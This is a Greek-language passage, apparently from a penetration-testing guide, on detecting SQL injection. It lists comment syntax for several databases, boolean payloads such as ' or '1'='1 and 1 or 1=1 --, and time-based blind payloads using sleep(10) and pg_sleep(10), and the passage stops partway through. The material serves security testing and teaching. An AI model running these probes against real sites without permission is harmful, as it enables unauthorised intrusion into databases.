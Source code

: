 ### **Σχόλια**
```sql
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```
### Επιβεβαίωση με λογικές πράξεις

Ένα αξιόπιστο μέθοδο για την επιβεβαίωση μιας ευπάθειας SQL injection περιλαμβάνει την εκτέλεση μιας **λογικής πράξης** και την παρατήρηση των αναμενόμενων αποτελεσμάτων. Για παράδειγμα, ένα GET παράμετρος όπως `?username=Peter` που παράγει τον ίδιο περιεχόμενο όταν τροποποιείται σε `?username=Peter' or '1'='1` υποδηλώνει μια ευπάθεια SQL injection.

Επίσης, η εφαρμογή **μαθηματικών πράξεων** λειτουργεί ως μια αποτελεσματική τεχνική επιβεβαίωσης. Για παράδειγμα, αν η πρόσβαση στο `?id=1` και `?id=2-1` παράγουν το ίδιο αποτέλεσμα, αυτό υποδηλώνει SQL injection.

Παραδείγματα που δείχνουν την επιβεβαίωση με λογικές πράξεις:
```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```
Αυτή η λίστα λέξεων δημιουργήθηκε για να προσπαθήσει να **επιβεβαιώσει SQL ενέσεις** με τον προτεινόμενο τρόπο:

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### Επιβεβαίωση με χρονομέτρηση

Σε ορισμένες περιπτώσεις **δεν θα παρατηρήσετε καμία αλλαγή** στη σελίδα που δοκιμάζετε. Επομένως, ένας καλός τρόπος για να **ανακαλύψετε τυφλές SQL ενέσεις** είναι να κάνετε τη βάση δεδομένων να εκτελέσει ενέργειες που θα έχουν **επίδραση στον χρόνο** που χρειάζεται η σελίδα για να φορτωθεί.\
Επομένως, θα ενωθούμε στο SQL ερώτημα μια λειτουργία που θα πάρει πολύ χρόνο για να ολοκληρωθεί:
```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

```